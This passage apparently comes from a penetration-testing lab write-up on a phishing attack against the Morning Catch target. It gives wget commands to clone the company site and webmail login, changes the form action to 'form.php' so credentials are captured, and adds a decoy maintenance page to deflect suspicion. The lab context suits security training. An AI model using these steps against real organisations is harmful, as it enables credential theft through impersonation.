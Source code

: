 The idea for realizing the first phase is to clone the entire website and create a fake form that will steal the credentials; then send a link to the website to the CEO by impersonating the System Administrator to fool him.

#### 1.2. Cloning

The attacker firstly clones the entire Morning Catch website, using `wget`. This command downloads all the web resources of the company website, making the dependencies local. Then, everything is moved to the root directory of Apache.

```bash
wget -r -k -p morningcatch.ph
sudo mv morningcatch.ph/* /var/www/html
```

Next, the attacker then clones the web login page separetly. This will allow for the `mail` directory to be created, making the URL of the login form more similar to the original one. 

```bash
rm /var/www/html/mail
wget -r -k -p morningcatch/mail/
sudo mv morningcatch.ph/mail /var/www/html
```

#### 1.3. Modify the login form

###### `index.html`

The attacker modifies, in the `mail/index.html` file, the form action element to `"form.php"`.

```bash
sudo nano /var/www/html/mail/index.html
```

Old post element:

```html
<form name="form" action="index.html" method="post">
```

New post element:

```html
<form name="form" action="form.php" method="post">
```

###### `task-mail`

Then the attacker adds the HTML file `task-mail` to the directory. This page will be loaded after submitting the credentials, showing a basic “System Maintenance” message to reduce immediate suspicion.

```bash
sudo cp task-mail /var/www/html/mail
```

It could look like this:

```html
<!doctype html>
<html>
<head><meta charset="utf-8"><title>System Maintenance</title></head>
<body>
  <h1>System Maintenance</h1>
  <p>Scheduled maintenance in progress. Please try again later.</p>
</body>
</html>
```
